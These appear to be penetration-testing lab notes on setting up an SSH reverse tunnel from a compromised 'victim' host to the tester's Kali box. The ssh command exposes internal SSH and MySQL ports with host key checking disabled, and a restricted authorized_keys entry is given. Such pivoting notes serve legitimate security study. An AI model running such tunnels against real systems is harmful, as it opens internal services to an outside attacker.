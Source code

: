 # SSH Reverse Tunnel

## Connecting from victim box to our kali box and restricting access

No password will be use, thus we will be using ssh keys. 

#### Connecting to our kali ssh server

```text
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o
"UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa
kali@10.11.0.4
```

#### Adding ssh public key to authorized hosts with restrictions. 

```text
from="10.11.1.250",command="echo 'This account can only be used for port
forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhU
r4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68
Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8
i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/
US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ajla
```

